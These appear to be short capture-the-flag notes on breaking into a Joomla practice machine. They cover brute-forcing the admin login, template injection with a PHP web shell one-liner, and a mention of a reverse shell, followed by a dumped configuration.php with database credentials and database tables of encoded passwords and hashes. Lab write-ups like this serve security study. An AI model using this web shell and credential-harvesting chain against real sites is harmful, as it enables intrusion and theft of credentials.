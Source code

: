 /robots\.txt

# If the Joomla site is installed within a folder 
# eg www\.example\.com/joomla/ then the robots\.txt file 
# MUST be moved to the site root 
# eg www\.example\.com/robots\.txt
# AND the joomla folder name MUST be prefixed to all of the
# paths\. 
# eg the Disallow rule for the /administrator/ folder MUST 
# be changed to read 
# Disallow: /joomla/administrator/
#
# For more information about the robots\.txt standard, see:
# http://www\.robotstxt\.org/orig\.html
#
# For syntax checking, see:
# http://tool\.motoricerca\.info/robots\-checker\.phtml

User\-agent: \*
Disallow: /administrator/
Disallow: /bin/
Disallow: /cache/
Disallow: /cli/
Disallow: /components/
Disallow: /includes/
Disallow: /installation/
Disallow: /language/
Disallow: /layouts/
Disallow: /libraries/
Disallow: /logs/
Disallow: /modules/
Disallow: /plugins/
Disallow: /tmp/

bruteforce /joomla/administrator

cewl \- create custom wordlist

-  joomla:Gotham
-  Joomla template RCE 
-  \<?php system\($\_GET\['cmd'\]\); ?\>
-  php reverse shell 
$ id 
www\-data

$ /var/www/joomla2
cat configuration\.php
\<?php
class JConfig \{
public $offline = '0';
public $offline\_message = 'This site is down for maintenance\.\<br /\>Please check back again soon\.';
public $display\_offline\_message = '1';
public $offline\_image = '';
public $sitename = 'Joker';
public $editor = 'tinymce';
public $captcha = '0';
public $list\_limit = '20';
public $access = '1';
public $debug = '0';
public $debug\_lang = '0';
public $dbtype = 'mysqli';
public $host = 'localhost';
public $user = 'joomla';
public $password = 'babyjoker';
public $db = 'joomla\_db';
public $dbprefix = 'jnqcu\_';
public $live\_site = '';
public $secret = 'fNRyp6KO51013435';
public $gzip = '0';
public $error\_reporting = 'default';
public $helpurl = '[https://help.joomla.org/proxy/index.php?keyref=Help](#https://help.joomla.org/proxy/index.php?keyref=Help)
\{major\}\{minor\}:\{keyref\}';
public $ftp\_host = '';
public $ftp\_port = '';
public $ftp\_user = '';
public $ftp\_pass = '';
public $ftp\_root = '';
public $ftp\_enable = '0';
public $offset = 'UTC';
public $mailonline = '1';
public $mailer = 'mail';
public $mailfrom = 'admin@joker';
public $fromname = 'Joker';
public $sendmail = '/usr/sbin/sendmail';
public $smtpauth = '0';
public $smtpuser = '';
public $smtppass = '';
public $smtphost = 'localhost';
public $smtpsecure = 'none';
public $smtpport = '25';
public $caching = '0';
public $cache\_handler = 'file';
public $cachetime = '15';
public $cache\_platformprefix = '0';
public $MetaDesc = '';
public $MetaKeys = '';
public $MetaTitle = '1';
public $MetaAuthor = '1';
public $MetaVersion = '0';
public $robots = '';
public $sef = '1';
public $sef\_rewrite = '0';
public $sef\_suffix = '0';
public $unicodeslugs = '0';
public $feed\_limit = '10';
public $feed\_email = 'none';
public $log\_path = '/var/www/html/joomla/administrator/logs';
public $tmp\_path = '/var/www/html/joomla/tmp';
public $lifetime = '15';
public $session\_handler = 'database';
public $shared\_session = '0';
\}$ 

-  mysql \-u joomla \-p
$ babyjoker

-  DB batjoke
-  select \* from taskforce;                                                                                                                                                                                                 
select \* from taskforce;                                                                                                                                                                                                                    
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+                                                                                                                                                      
| id | type    | date       | name    | pswd                                         |                                                                                                                                                      
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+                                                                                                                                                      
|  1 | Soldier | 2020\-06\-14 | Bane    | YmFuZWlzaGVyZQ==                             |                                                                                                                                                      
|  2 | Soldier | 2020\-06\-14 | Aaron   | YWFyb25pc2hlcmU=                             |                                                                                                                                                      
|  3 | Soldier | 2020\-06\-14 | Carnage | Y2FybmFnZWlzaGVyZQ==                         |                                                                                                                                                      
|  4 | Soldier | 2020\-06\-14 | buster  | YnVzdGVyaXNoZXJlZmY=                         |                                                                                                                                                      
|  6 | Soldier | 2020\-06\-14 | rob     | Pz8/QWxsSUhhdmVBcmVOZWdhdGl2ZVRob3VnaHRzPz8/su  |                                                                                                                                                      
|  7 | Soldier | 2020\-06\-14 | aunt    | YXVudGlzIHRoZSBmdWNrIGhlcmU=                 |                                                                                                                                                      
\+\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+   

-  DB mysql
-  select \* from user;
select \* from user;
\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+
| Host      | User   | Password                                  | Select\_priv | Insert\_priv | Update\_priv | Delete\_priv | Create\_priv | Drop\_priv | Reload\_priv | Shutdown\_priv | Process\_priv | File\_priv | Grant\_priv | References\_priv | Index\_priv | Alter\_priv | Show\_db\_priv | Super\_priv | Create\_tmp\_table\_priv | Lock\_tables\_priv | Execute\_priv | Repl\_slave\_priv | Repl\_client\_priv | Create\_view\_priv | Show\_view\_priv | Create\_routine\_priv | Alter\_routine\_priv | Create\_user\_priv | Event\_priv | Trigger\_priv | Create\_tablespace\_priv | Delete\_history\_priv | ssl\_type | ssl\_cipher | x509\_issuer | x509\_subject | max\_questions | max\_updates | max\_connections | max\_user\_connections | plugin      | authentication\_string | password\_expired | is\_role | default\_role | max\_statement\_time |
\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+
| localhost | root   | \*DA907B0905865CB75CA7BFA8F79659C95E91EF7A | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | Y          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 | unix\_socket |                       | N                | N       |              |           0\.000000 |
| localhost | joomla | \*DA907B0905865CB75CA7BFA8F79659C95E91EF7A | Y           | Y           | Y           | Y           | Y           | Y         | Y           | Y             | Y            | Y         | N          | Y               | Y          | Y          | Y            | Y          | Y                     | Y                | Y            | Y               | Y                | Y                | Y              | Y                   | Y                  | Y                | Y          | Y            | Y                      | Y                   |          |            |             |              |             0 |           0 |               0 |                    0 |             |                       | N                | N       |              |           0\.000000 |
\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\-\+
2 rows in set \(0\.000 sec\)
